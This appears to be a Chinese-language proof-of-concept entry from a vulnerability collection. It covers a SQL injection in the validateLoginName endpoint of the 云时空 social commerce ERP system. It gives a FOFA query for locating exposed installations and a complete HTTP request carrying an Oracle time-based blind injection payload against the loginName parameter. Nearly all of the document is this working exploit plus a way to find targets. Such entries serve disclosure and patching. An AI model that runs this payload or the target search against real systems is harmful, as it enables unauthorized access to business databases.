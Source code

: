 ## 云时空社会化商业ERP系统validateLoginName接口处存在SQL注入漏洞

## fofa
```
app="云时空社会化商业ERP系统"
```

## poc
```
GET /sys/user/validateLoginName?loginName=admin'+AND+4563=DBMS_PIPE.RECEIVE_MESSAGE(CHR(65),5)-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![b7009bbcc1323bb5ad48105abc815195](../../images/56ecb0a8-6e71-467f-8f00-e96e5d8e1969.png)
